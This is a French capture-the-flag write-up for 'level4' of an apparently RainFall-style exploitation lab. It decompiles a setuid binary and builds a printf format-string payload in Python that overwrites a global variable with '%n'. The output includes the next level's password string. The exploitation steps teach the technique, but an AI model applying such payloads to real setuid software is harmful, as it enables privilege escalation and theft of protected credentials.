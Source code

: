 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2025(level4) gid=2025(level4) groups=2025(level4),100(users)
/home/user/level4
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level4 :

```
$ ./level4

```

Il ne répond qu'avec un input :

```
$ ./level4
da
da
```

J'utilise [Dogbolt](https://dogbolt.org/?id=b9f0625b-1ccf-4c04-ba81-40bf2a6eb0c0) afin de décompiler le binaire du level 4 :

### Ghidra

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n() {
  char buffer[520];
  
  fgets(buffer, 512,stdin);
  p(buffer);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main() {
  n();
  return;
}
```

### Hexray

```c
int n() {
  int result; // eax
  char buffer[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(buffer, 512, stdin);
  p(buffer);
  result = m;
  if ( m == 16930116 )
    return system("/bin/cat /home/user/level5/.pass");
  return result;
}

void p(char *buffer) {
  printf(buffer);
  return;
}
```

Je note les choses suivante :

- `fgets()` est utilisé, et n'est donc pas vulnérable
- `printf()` est utilisé, probablement expoitable comme le level 3, cependant il est dans une autre fonction

Je me penche sur la possibilité d'utiliser le même exploit que le level 3.
Je commence donc par trouver l'adresse de la variable `m` dans `gdb`.

Je trouve : `0x08049810`

```
(gdb) disas n
Dump of assembler code for function n:
    ...
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax <- ici
   0x08048492 <+59>:    cmp    $0x1025544,%eax
    ...
```

Grâce à Hexray, je sais que la valeur qu'on essaye de comparer à `m` est `16930116`.
Il faut donc, par le même exploit que le level3, que j'arrive à donner à `m` cette valeur.

Hors, dans le niveau précédent, j'avais la place d'écrire 64 caractères dans le buffer. Cette fois-ci, le buffer est seulement de 512 bytes, donc je n'ai pas ce luxe.

Pour le moment, j'ai donc uniquement la première partie de mon payload infecté, qui est l'adresse de `m` :

```python
python -c 'print("\x08\x04\x98\x10"[::-1])'
```

Maintenant, j'utilise une astuce qui me permet de ne pas écrire les 16 millions de caractères : `%16930116p`.

Cela me permet de représenter en tant que pointeur une valeur, mais avec un padding de 16 millions de caractères. Cela permet de contourner la limitation de `512` que `fgets()` exige ici.

Hors, j'ai déjà écris les 4 bytes de l'adresse de `m` dans le payload, je n'ai donc besoin que de mettre un padding de `%16930112p`.

Le payload ressemble donc à ça pour le moment :

```python
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p")'
```

La dernière partie du payload est donc de convertir tout ces caractères en utilisant le formatteur `%n`. Comme pour le level3, il me faut donc trouver quel est la position de l'argument qui pointerait sur la première partie du `printf` (ici donc l'adresse de `m`) :

```
$ python -c 'print("a %x %x %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
a b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 78252061 20782520 25207825
                                                                                        ^
$ python -c 'print("b %x %x %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
b b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 78252062 20782520 25207825
                                                                                        ^
```

C'est donc ici le 12eime argument qui représente la première partie du `printf()`. Donc, comme pour le level 3, cela signifie que la dernière partie de mon payload est ``%12$n` (note: le `$` dénote un argument tandis que le `12` est un simple padding, le combo signifie donc "l'argument à telle position").

Payload final :

```python
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")'
```

Je l'essaye :

```
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")' | ./level4

... (il print 16 millions de caractère de padding)

                      0xb7ff26b0 (puis le pointeur (le premier de la stack, vu qu'on ne demande pas une position précise), note: c'est le premier des 12 argument vu plus haut lors du test avec les %x %x %x...)

(enfin, de manière invisible, le %12$n affecte comme valeur de pointeur au 12eime argument de la stack (ici donc l'adresse de m) la valeur des caractère imprimé jusque ici, donc 16 millions, ce qui change permet à 'm' de passer le if, et de nous imprimer le .pass ci-dessous)

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
